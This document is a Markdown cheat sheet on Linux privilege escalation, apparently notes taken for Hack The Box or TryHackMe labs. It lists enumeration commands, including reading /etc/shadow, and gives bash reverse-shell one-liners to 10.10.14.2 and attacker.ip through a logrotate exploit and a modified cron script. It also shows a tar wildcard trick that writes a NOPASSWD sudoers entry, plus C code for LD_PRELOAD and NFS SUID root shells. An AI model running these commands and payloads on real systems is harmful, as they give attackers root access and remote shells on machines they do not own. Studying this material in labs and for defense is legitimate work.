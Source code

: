 #linux/LPE
# Enumeration
* `hostname`
* `uname -a`
* `cat /proc/version`
* `cat /etc/issue`
* `ps -A`
* `ps axjf` - tree view
* `ps aux` - all processes
* `env`
* `id <username>`
* `cat /etc/passwd` - list of users
* `cat /etc/shadow` - password hashes
	   * Detect hash type in `/etc/shadow` using `grep ENCRYPT_METHOD /etc/login.defs`
* `history`
* `ifconfig`
* `ip route`
* `netstat -a` - all open ports, `netstat -at` or `netstat -au` - tcp/udp, `nestat -l` - listening mode
* `netstat -tp`: list connections with the service name and PID information
* `find / -writable -type d 2>/dev/null` : Find world-writeable folders
* `find / -perm -o x -type d 2>/dev/null` : Find world-executable folders
* `find / -perm -u=s -type f 2>/dev/null`: Find files with the SUID bit
* `find / -user root -perm -4000 -exec ls -ldb {} \; 2>/dev/null` SUID
* `find / -user root -perm -6000 -exec ls -ldb {} \; 2>/dev/null` SGID
* `find / -type f -name ".*" -exec ls -l {} \; 2>/dev/null | grep htb-student` - file all hidden files
* `find / -type d -name ".*" -ls 2>/dev/null` - all hidden dirs
* `ls -l /tmp /var/tmp /dev/shm` - tmp files
* Installed packages
```bash
apt list --installed | tr "/" " " | cut -d" " -f1,3 | sed 's/[0-9]://g' | tee -a installed_pkgs.list
```
* configs
```bash
find / -type f \( -name *.conf -o -name *.config \) -exec ls -l {} \; 2>/dev/null
```
* scripts
```bash
find / -type f -name "*.sh" 2>/dev/null | grep -v "src\|snap\|share"
```

# Logrotate
https://github.com/whotwagner/logrotten
1. we need `write` permissions on the log files
2. logrotate must run as a privileged user or `root`
3. vulnerable versions:
    - 3.8.6
    - 3.11.0
    - 3.15.0
    - 3.18.0
```bash
git clone https://github.com/whotwagner/logrotten.git && cd logrotten
gcc logrotten.c -o logrotten

echo 'bash -i >& /dev/tcp/10.10.14.2/9001 0>&1' > payload
grep "create\|compress" /etc/logrotate.conf | grep -v "#"
create

./logrotten -p ./payload /tmp/tmp.log
# waiting for running logrotate
```

# Cron
1. `cat /etc/crontab`
2. Modify available cron script and add your code there: 
```bash
bash -i >& /dev/tcp/attacker.ip/6666 0>&1   
```
3. Listen on attacker machine: `nc -nlvp 6666`
## psspy
Spy on running process to find passed function arguments like passwords
https://github.com/DominicBreuker/pspy/releases/download/v1.2.0/pspy64s
```bash
./pspy64 -pf -i 1000
```
# Misc
##### Groups
adm
Members of the adm group are able to read all logs stored in /var/log. 

Disk
Users within the disk group have full access to any devices contained within /dev, such as /dev/sda1,


##### Wildcard abuse
tar exampl
```bash
# crontab
*/01 * * * * cd /home/htb-student && tar -zcf /home/htb-student/backup.tar.gz *
# abusing
htb-student@NIX02:~$ echo 'echo "htb-student ALL=(root) NOPASSWD: ALL" >> /etc/sudoers' > root.sh
htb-student@NIX02:~$ echo "" > "--checkpoint-action=exec=sh root.sh"
htb-student@NIX02:~$ echo "" > --checkpoint=1
```

##### Restricted shell
https://vk9-sec.com/linux-restricted-shell-bypass/
```bash
ssh htb-user@10.129.205.109 -t "bash --noprofile"
```
##### Automated tools
- **LinPeas**: [https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS)
- **LinEnum:** [https://github.com/rebootuser/LinEnum](https://github.com/rebootuser/LinEnum)[](https://github.com/rebootuser/LinEnum)
	* `wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh`
- **LES (Linux Exploit Suggester):** [https://github.com/mzet-/linux-exploit-suggester](https://github.com/mzet-/linux-exploit-suggester)
- **Linux Smart Enumeration:** [https://github.com/diego-treitos/linux-smart-enumeration](https://github.com/diego-treitos/linux-smart-enumeration)
- **Linux Priv Checker:** [https://github.com/linted/linuxprivchecker](https://github.com/linted/linuxprivchecker)
#### Kernel exploits
* https://github.com/The-Z-Labs/linux-exploit-suggester
* https://www.cvedetails.com/
* https://github.com/dirtycow/dirtycow.github.io/wiki/PoCs
#### sudo
* run `sudo -l`
* Check binaries at https://gtfobins.github.io/

1. Check for LD_PRELOAD (with the env_keep option)
2. Write a simple C code compiled as a share object (.so extension) file
	```c
#include <stdio.h>  
#include <sys/types.h>  
#include <stdlib.h>  
  
void _init() {  
unsetenv("LD_PRELOAD");  
setgid(0);  
setuid(0);  
system("/bin/bash");  
}
```
`gcc -fPIC -shared -o shell.so shell.c -nostartfiles`
3. Run the program with sudo rights and the LD_PRELOAD option pointing to our .so file
`sudo LD_PRELOAD=/home/user/ldpreload/shell.so find`
https://rafalcieslak.wordpress.com/2013/04/02/dynamic-linker-tricks-using-ld_preload-to-cheat-inject-features-and-investigate-programs/
#### SUID
1. c will list files that have SUID or SGID bits set.
2. Check gtfobins
#### Capabilities
1. `getcap -r / 2>/dev/null`
2. Check gtfobins
#### [[NFS]]
List mountable devices `cat /etc/exports`

On attacker machine: 
`showmount -e <ip>`
`mount -o rw <ip>:/backups /tmp/bd`

Create executable with SUID set and run on attacker machine:
```c
int main(){
setgid(0);
setuid(0);
system("/bin/bash");
return 0;
}
```
## Local ports
Show ports in use:
```bash
ss -tnl

ss -tunlp 
```
Display default service for each port in use:
```bash
ss -tl
```
Discover open ports and services:
```shell
netstat -tulpn | grep LISTEN
```
## Case 1. Bash
```bash
if [[ $DB_PASS == $USER_PASS ]]; then
	/usr/bin/echo "Password confirmed!"
else
	/usr/bin/echo "Password confirmation failed!"
exit 1
fi
```
This is due to the use of == inside [[ ]] in Bash , which performs pattern matching rather than
a direct string comparison; more on this can be found https://mywiki.wooledge.org/BashPitfalls#if_.5B.5B_.24foo_.3D_.24bar_.5D.5D_.28depending_on_intent.29
## Case 2. tar unarchive wildcard
https://www.helpnetsecurity.com/2014/06/27/exploiting-wildcards-on-linux/?ref=blog.tryhackme.com